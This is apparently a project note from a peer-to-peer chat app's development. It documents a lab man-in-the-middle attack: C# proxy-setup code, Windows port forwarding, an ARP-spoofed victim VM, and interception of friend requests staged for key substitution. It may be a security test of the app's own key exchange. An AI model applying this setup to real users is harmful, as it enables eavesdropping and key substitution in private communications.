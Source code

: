 #### **StartRealTCPProxy() - CompleteScenarioAttack.cs:117-131**
```csharp
// 🔧 ÉTAPE 1: Configuration Windows port forwarding OBLIGATOIRE
await ConfigureWindowsPortForwarding(relayServerIP);

// 🕷️ ÉTAPE 2: Proxy MITM principal (port 18889)
var proxyStarted = await _tcpProxy.StartProxy(18889, relayServerIP, 8889);

LogMessage?.Invoke($"🎯 Architecture MITM HYBRIDE OPTIMISÉE:");
LogMessage?.Invoke($"   📡 7777 → portproxy DIRECT → relay:7777 [Friend Requests]");
LogMessage?.Invoke($"   📡 8888 → portproxy DIRECT → relay:8888 [Messages]");
LogMessage?.Invoke($"   🕷️ 8889 → portproxy → 18889 → TCPProxy → relay:8889 [API - INTERCEPTION]");
LogMessage?.Invoke($"   📡 8891 → portproxy DIRECT → relay:8891 [Files]");
```

### 📊 **PERFORMANCE METRICS OPTIMISÉES**

#### **🚀 Benefits Architecture Hybride**
- **Latence minimale** : Ports 7777/8888/8891 direct forwarding (0 overhead)
- **Interception ciblée** : Seul port 8889 via TCPProxy (friend requests)
- **Throughput maximisé** : Files/messages sans proxy bottleneck
- **Compatibility 100%** : Search + friend requests + chat + files

#### **🎯 Real-World Test Results**
```
✅ VM1 Search VM2: SUCCESS (via direct forwarding)
✅ VM1 → VM2 Friend Request: INTERCEPTED (via TCPProxy 18889)
✅ VM1 ↔ VM2 Messages: DIRECT (via 8888 forwarding)
✅ VM1 ↔ VM2 Files: DIRECT (via 8891 forwarding)
✅ Key Substitution: READY (friend requests interceptable)
```

### 🕷️ **ARCHITECTURE FINALE VALIDÉE**
```
🌐 INTERNET
    ↕️
🛰️ RELAY SERVER (192.168.1.152)
    ↕️ Direct: 7777,8888,8891
    ↕️ Intercept: 8889 → 18889
🕷️ ATTAQUANT (192.168.1.145)
    ↕️ Windows Portproxy + TCPProxy
🎯 VICTIME (192.168.1.147) - ARP Spoofed
```

### 🏆 **STATUS FINAL ARCHITECTURE MITM**

#### **✅ Phase 1: Multi-Port Forwarding**
- **Windows portproxy** : Configuration automatique 4 ports ChatP2P
- **Hybrid approach** : Direct + intercepted selon criticité
- **Zero packet loss** : Routing transparent niveau OS
